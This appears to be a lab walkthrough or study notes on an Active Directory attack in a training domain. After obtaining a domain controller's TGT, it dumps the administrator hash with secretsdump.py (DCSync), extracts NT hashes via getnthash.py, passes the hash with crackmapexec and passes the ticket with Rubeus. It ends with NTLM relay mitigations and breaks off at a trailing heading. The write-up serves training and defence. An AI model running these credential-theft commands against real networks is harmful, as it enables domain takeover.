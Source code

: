 =============================================================

# Performing the Attack

============================================================
## Method 1

`DcSync with the TGT`
```shell-session
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
# output: <ADMIN NTLM HASH>
```

`use retrieved nt hash to confirm aceess`
```
$ crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```
### Method 2
https://packages.ubuntu.com/focal/krb5-user
We can also take an alternate route once we have the TGT for our target. Using the tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the [Privileged Attribute Certificate (PAC)](https://stealthbits.com/blog/what-is-the-kerberos-pac/) which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.
`get DC01 NT hash` 
```shell-session
$ python getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

`secretsdump dcsync`
```shell-session
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```

Alternatively, once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.

`Requesting TGT and Performing PTT with DC01$ Machine Account`
```powershell-session
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
```
================================================================
### **Mitigations**

- To prevent NTLM relay attacks, use [Extended Protection for Authentication](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2009/973811) along with enabling [Require SSL](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429) to only allow HTTPS connections for the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services
- [Disabling NTLM authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) for Domain Controllers
- Disabling NTLM on AD CS servers using [Group Policy](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services are in use
- 
To protect against PetitPotam and similar attacks involving AD CS:
